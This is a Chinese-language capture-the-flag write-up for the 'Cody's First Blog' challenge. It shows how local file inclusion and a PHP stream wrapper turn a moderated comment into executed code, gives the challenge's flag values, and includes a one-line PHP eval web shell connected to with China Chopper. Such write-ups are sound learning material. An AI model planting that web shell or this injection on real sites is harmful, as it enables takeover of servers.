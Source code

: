 # Cody's First Blog

运用到文件包含漏洞，以及PHP伪协议的知识。

## Flag1

![](../../../.gitbook/assets/1dsaf1231d.png)

提交评论得到第一个flag（这里提交的内容包含&lt;?php都会弹出flag）

![](../../../.gitbook/assets/12sa124ar13r.png)

**Flag1：**

**^FLAG^70fb6cb5f09fce5fb32c79e83f932dd7325e72bca4a060cd2da8c632dd838a58$FLAG$**

响应包有提到评论需要审核

回到首页，查看源代码发现如下注释：

![](../../../.gitbook/assets/12ewd12sad1.png)

&lt;a href="?page=admin.auth.inc"&gt;Admin login&lt;/a&gt;

跟过去

![](../../../.gitbook/assets/qwdqw21edsag.png)

是一个管理员的登录入口，先把他丢到burpsuit里面爆破，然后继续寻找线索（爆破了一个小时什么也没有，应该是烟雾弹）

## Flag2

注意到：[http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc](http://35.196.135.216:5001/d48c38814d/?page=admin.auth.inc)

我们对page参数进行修改一下看看

![](../../../.gitbook/assets/eghgjt65ufg.png)

显然这是一个文件包含了，那思路就逐渐清晰，先扫一波存在的文件\(分析结构应该为xx.inc.php文件，这里并不能跨目录包含，已经限制了文件包含的路径\)源代码已经强制在后面添加了.php后缀。（这里方便筛选，包含成功的不会出现字符串Warning，这一条件可以作为筛选项）

![](../../../.gitbook/assets/fafher45uhgf.png)

得到的结果大概就这三个。

访问一下admin.inc这个页面

![](../../../.gitbook/assets/gsdg43h46ghj.png)

页面最底下有一个flag

^FLAG^3b3811daa28ae899032343b43e155238cdf7ae8c921f78d0494813a3dcad0e5c$FLAG$

不仅如此，注意到上面有确认评论的选项，尝试确认一下评论。

![](../../../.gitbook/assets/grege75kgkkgh.png)

回到主页我们惊喜的发现，评论插进了主页，这里就有一个骚思路了，那就是对index文件进行包含，从而达到插入的命令以PHP语句来执行。

![](../../../.gitbook/assets/rthrtmhcvb567d3.png)

## Flag3

插入&lt;?php phpinfo\(\); ?&gt;，并且确认评论

![](../../../.gitbook/assets/asd1das23t262.png)

虽然在页面上没有看到我们插入的内容，但是我们尝试用php伪协议

**PHP伪协议**

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen\(\)、 copy\(\)、 file\_exists\(\) 和 filesize\(\) 的文件系统函数。 除了这些封装协议，还能通过 stream\_wrapper\_register\(\) 来注册自定义的封装协议。

[https://www.cnblogs.com/lgf01010/p/9595391.html](https://www.cnblogs.com/lgf01010/p/9595391.html)

**目录**

[![&#x76EE;&#x5F55;](../../../.gitbook/assets/fasf1ff1fsg.jpg)](http://image.3001.net/images/20180827/1535362079_5b83c41fbe910.png)

URL如下：

![](../../../.gitbook/assets/fsdaf2fdsy32.png)

我们惊喜的发现，插入的PHP代码被解析并且执行了。

下面就是直接插入一句话

&lt;?php @eval\($\_POST\['cmd'\]\); ?&gt;

前往admin.inc确认评论

![](../../../.gitbook/assets/3rfdsg3hgffh.png)

然后直接用菜刀连接

![](../../../.gitbook/assets/asf1dsa112.png)

最后一个flag在index.php注释里面

![](../../../.gitbook/assets/qwasf2t32dsf.png)

^FLAG^7c0e45cb6dbb53a134e5627e432a2a660192cdf3fe1dcf5e06b91886594e35e4$FLAG$

![](../../../.gitbook/assets/asff1231hk76.png)

自此全部完成

